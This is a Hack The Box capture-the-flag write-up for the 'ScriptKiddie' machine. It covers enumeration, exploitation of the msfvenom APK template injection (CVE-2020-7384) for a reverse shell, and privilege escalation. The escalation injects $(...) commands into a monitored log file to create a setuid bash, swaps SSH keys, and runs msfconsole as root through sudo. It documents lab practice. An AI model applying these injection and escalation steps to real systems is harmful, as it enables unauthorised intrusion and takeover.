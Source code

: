 ```yaml
--- 
title: Hack The Box - ScriptKiddie Writeup
date: 2021-06-06 10:12:00 +0200
categories: [Hack The Box, Machines]
tags: [wfuzz, common-vulnerability, metasploit]     # TAG names should always be lowercase
dirImg: /assets/img/HackTheBox/ScriptKiddie/
image:
  src: /assets/img/HackTheBox/ScriptKiddie/icon.webp
  alt: ScriptKiddie image
toc: false
---
```






Start with usual nmap script to enumerate.  
```
nmap -sC -sV -oN nmap-initial 10.10.10.226
```

We see ssh open, a fitered 903 port and a webserver on 5000.  
We start by looking at port 5000. As we see from the nmap outcome, port 5000 hosts a Werkzeug web application which uses python 3.8.5

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary medium

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary dirb big.txt

Run wfuzz to find console entry. Namely
```
wfuzz -u http://10.10.10.226:5000/FUZZ/console -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404
```
No results excepts //console that returns the default page

Ideas:
1. May contain sensitive information ?
http://10.10.10.226:5000/static/hacker.css
2. fuzz url to find console 
e.g. http://10.10.10.226:5000/$FUZZ$/console
3.  Access /console or trigger internal server error to make the console show up
https://medium.com/swlh/hacking-flask-applications-939eae4bffed

The more promising so far is tryng to trigger an internal server error.

### Path 1: Trigger internal state 

1. Change values of os in the payload field  
Since the user is limited to select the values linux,windows or android,  the back end may give the selection of one of this 3 possibilities for granted. We thus try to modify the http payload with Burp, hoping to cause an internal error in the server.  
We tried with names such as 'lll' or also special charachters as \',\",\*. Invalid os is returned by the back end.  
2. Trigger internal state error by using a malformed msfvenom template file  
Did not yield to any results

### Path 2: Command injection in msfvenom template file
While googling for information regarding the template file and msfvenom, we run into the CVE-2020-7384: Malicious user may upload a malicious template file in msfvenom which would trigger code execution on the target machine.  
Metasploit created a module for this vulnerability as we can see from the metasploit github page: https://github.com/rapid7/metasploit-framework/pull/14331.  

We thus use metasploit to exploit the vulnerability (the module is pretty new, so we need to update metasploit if the module is not available)
We select the module (unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) , modify the options and we run the exploit. This will generate the apk file containing our command injection that will be executed by msfvenom on the target machine.  
We start a exploit/multi/handler on our host mahcine and upload the generated apk file in the specific form in the web server. The os which has to be selected is android, the ip can be arbitrary.

Once we press *generate* a reverse shell will be started on the metasploit handler instance.  
The user flag is under /home/kid.  

We now want to escalate the privileges  

We see a scanlosers.sh in the /home/pwn directory that we can read. After a quick analysis of the file it is possible to see that the file /home/kid/logs/hackers is used to retrieve inputs to feed to scanlosers.sh.  
Given that we (as kid) own the the file 'hackers', we may inject some command in the file and hope that it will be executed by the pwn user.  
We can confirm that scanlosers.sh is in action by writing to the 'hackers' file. As we can see, the file get emptied immediately.  
We can easily execute command in scanlosers.sh by using nested commands. Namely
```
echo 'ciao1 ciao2 $(/usr/bin/ping 10.10.14.20)' >> hackers
```
We receive the ping in the host machine, thus confirming the code injection.  
With a better payload:
```
echo 'ciao ciao $(cp /bin/bash /home/pwn/bash; chmod +s /home/pwn/bash)' >> /home/kid/logs/hackers
```

We execute the bash shell with the -p option. The effective user id will be used.
```
./bash -p
```

We are now the user pwn.  
We set up the ssh keys to enter through ssh and have a more stable shell. Since the authorized file is owned by root and we cannot overwrite it, we remove the entire .ssh folder and we create another one. We insert our pub key in the authorized file and we connect through ssh.  

We can then proceed to root the box.  
With  sudo -l we can see that the user pwn can execute msfconsole as root. Again we can use the script kiddie tools against him.  
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

We thus get the shell as root
```
msf6 > whoami
[*] exec: whoami

root
```

We can now retrieve the flag in /root/root.txt
